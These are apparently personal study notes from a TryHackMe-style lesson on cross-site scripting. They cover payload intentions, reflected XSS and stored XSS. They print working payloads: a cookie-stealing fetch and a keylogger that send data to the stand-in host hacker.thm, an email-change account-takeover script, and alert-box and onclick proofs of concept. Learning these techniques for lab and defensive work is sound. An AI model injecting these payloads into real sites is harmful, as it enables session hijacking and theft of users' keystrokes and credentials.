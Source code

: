 --- ---

<h4>What is XSS</h4>

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

- What is a payload?

	In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

	The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

	Here are some examples of XSS intentions.

- Proof Of Concept:

	This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

	`<script>alert('XSS');</script>`

- Session Stealing:

	Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

	`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

- Key Logger:

	The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

	`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

- Business Logic:

	This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

	`<script>user.changeEmail('attacker@hacker.thm');</script>`

	Now that the email address for the account has changed, the attacker may perform a reset password attack.

--- ---

<h4>Reflected XSS</h4>

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

- **Potential Impact:**  
  
	The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

- **How to test for Reflected XSS:**  

	You'll need to test every possible point of entry; these include:

	-   `Parameters in the URL Query String`
	-   `URL File Path`
	-   `Sometimes HTTP Headers (although unlikely exploitable in practice)`
	-   `Title name of a website post` ---> 
		- example
			![[Pasted image 20221129102249.png]] 

   
Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
--- ---

<h4>Stored XSS</h4>

As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.  
  
- **Potential Impact:**  
  
The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

	**How to test for Stored XSS:**  

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  

	-   Comments on a blog
	-   User profile information  
	-   Website Listings  
	-   Button (Bypass filter that dont allow code) `<button onclick=alert(‘xss’)>click</button>`
    
Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected.

--- ---
